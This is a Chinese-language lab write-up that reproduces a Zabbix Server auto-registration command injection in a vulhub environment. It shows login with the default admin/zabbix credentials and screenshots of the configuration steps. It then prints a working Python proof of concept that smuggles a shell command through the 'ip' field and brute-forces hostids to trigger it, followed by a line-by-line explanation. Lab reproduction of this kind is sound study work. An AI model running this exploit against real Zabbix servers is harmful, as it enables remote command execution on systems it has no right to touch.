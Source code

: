 ### 漏洞复现

本漏洞利用需要开启自动注册功能，所以我们使用默认账号/密码(admin/zabbix)去登录zabbix进行配置

登录进去长这样

![image-20250806090834339](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202508060908462.png)

我们前往Configuration->Actions后，选择Auto registration，点击Create action

![image-20250806091920564](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202508060919614.png)

我们随便输入一个名字

![image-20250806091939146](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202508060919191.png)

然后再创建一个Operations，type选择Add host

![image-20250806092041698](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202508060920728.png)

点击add添加，再点击add进行保存，这样我们就配置好了

![image-20250806092125109](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202508060921151.png)



在下载的vulhub中漏洞目录有漏洞利用脚本，查看poc，我们可以看到执行的是写入文件的操作，我们利用python3执行poc，进入docker中查看写入成功

```py
import sys
import socket
import json
import sys


def send(ip, data):
    conn = socket.create_connection((ip, 10051), 10)
    conn.send(json.dumps(data).encode())
    data = conn.recv(2048)
    conn.close()
    return data


target = sys.argv[1]
print(send(target, {"request":"active checks","host":"vulhub","ip":"ffff:::;touch /tmp/success2"}))
for i in range(10000, 10500):
    data = send(target, {"request":"command","scriptid":1,"hostid":str(i)})
    if data and b'failed' not in data:
        print('hostid: %d' % i)
        print(data)
```

1. 导入模块：代码开始时导入了sys、socket和json模块，这些模块用于处理命令行参数、进行网络通信和处理JSON数据。
2. send函数：这个函数用于向Zabbix Server发送数据的封装。它使用socket.create_connection建立到目标IP地址和端口10051的连接，然后发送一个JSON格式的数据，并等待响应。最后，它关闭连接并返回响应数据。
3. 获取目标IP：通过命令行参数获取目标IP地址，这意味着该脚本用于特定的Zabbix Server目标。
4. 发送数据给Zabbix Server：使用send函数向目标Zabbix Server发送一个JSON请求。这个请求是"active checks"类型的，其中包括主机名和IP地址等参数。这是测试Zabbix系统的活动检查功能。
5. 循环：在一个hostid范围内，从10000到10500，循环尝试向目标Zabbix Server发送命令请求。这个请求包含了脚本ID和主机ID等参数。
6. 检查响应数据：如果响应数据不包含"failed"字样，那么打印出hostid和响应数据。这是用于确认命令是否成功执行的部分。
